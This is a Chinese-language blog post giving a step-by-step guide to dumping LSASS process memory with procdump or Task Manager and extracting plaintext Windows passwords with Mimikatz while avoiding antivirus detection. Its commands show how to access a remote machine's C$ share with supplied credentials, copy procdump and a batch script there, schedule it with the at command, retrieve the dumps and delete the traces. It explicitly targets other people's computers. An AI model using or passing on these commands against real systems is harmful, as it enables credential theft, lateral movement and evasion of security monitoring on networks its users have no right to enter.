 ```yaml
---
layout: post
category: binghe-code-hack
title: 利用procdump+Mimikatz 绕过杀软获取Windows明文密码
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 利用procdump+Mimikatz 绕过杀软获取Windows明文密码
lock: need
---
```


# 利用procdump+Mimikatz 绕过杀软获取Windows明文密码

Mimikatz现在已经内置在Metasploit’s  meterpreter里面，我们可以通过meterpreter下载。但是你如果觉得还要考虑杀毒软件，绑定payload之类的东西太过复杂，我们可以有更好的办法，只需要在自己的电脑上运行Mimikatz alpha([地址](http://blog.gentilkiwi.com/mimikatz))版本,然后处理dump的LSASS进程内存文件就行！

那么如何dump LSASS进程内存呢。可以通过以下方式：

**1.对于NT6可以使用windows自带的功能进行dump:**

任务管理器—进程—显示所有用户进程—找到lsass—右键“创建转储文件”

![img](https://img-blog.csdnimg.cn/20181219222000264.png)

![img](https://img-blog.csdnimg.cn/20181219222020980.png)

**2.对于NT5可以使用微软的Procdump工具（这当然不会引起杀软报毒）**

Procdump: http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx

命令如下：

```
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![img](https://img-blog.csdnimg.cn/2018121922212881.png)

我们运行mimikatz的平台（platform）要与进行dump的系统(source dump)兼容，兼容性如下：

![img](https://img-blog.csdnimg.cn/201812192222067.png)

得到dump后的文件我们就能使用mimikatz获取密码了。我们dump自己的电脑当然没什么意思，下面介绍怎么dump别人的电脑。

首先我们需要能够访问别人的C$（通常只有管理员可以）

```
net use \\TARGETBOX\C$ /user:DOMAIN\Username password
dir \\TARGETBOX\C$
```

如果上述命令好使的话，我们接下来使用AT命令。

```
at \\TARGETBOX
```

接下来我们可以在目标主机上开展工作了。

```
mkdir \\TARGETBOX\C$\Temp
dir \\TARGETBOX\C$\Temp
copy c:\temp\procdump.exe \\TARGETBOX\C$\Temp
copy c:\temp\procdump.bat \\TARGETBOX\C$\Temp
```

procdump.bat中的内容如下

```
@echo off
C:\temp\procdump.exe -accepteula -ma lsass.exe %COMPUTERNAME%_lsass.dmp
```

这里一个技巧就是dump得到的文件名中有“计算机名”，这样可以让我们区分是来dump的文件自哪台电脑。

我们继续。 使用 net time 来获知远程主机上的时间。

```
net time \\TARGETBOX
at \\TARGETBOX 13:52 C:\Temp\procdump.bat
```

复制dump的文件，然后清理痕迹

```
dir \\TARGETBOX\C$\Temp
copy \\TARGETBOX\C$\Temp\*lsass.dmp C:\temp\output\
rmdir /s \\TARGETBOX\C$\Temp
```

之后我们就可以运行我们电脑上的Mimikatz，对得到的.dmp文件进行分析了（注意上文提到的兼容性）。命令如下：

```
mimikatz # sekurlsa::minidump SUPERCOMPUTER_lsass.dmp
Switch to MINIDUMP
mimikatz # sekurlsa::logonPasswords full
```

到此结束！我们得到了远程主机上的密码。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
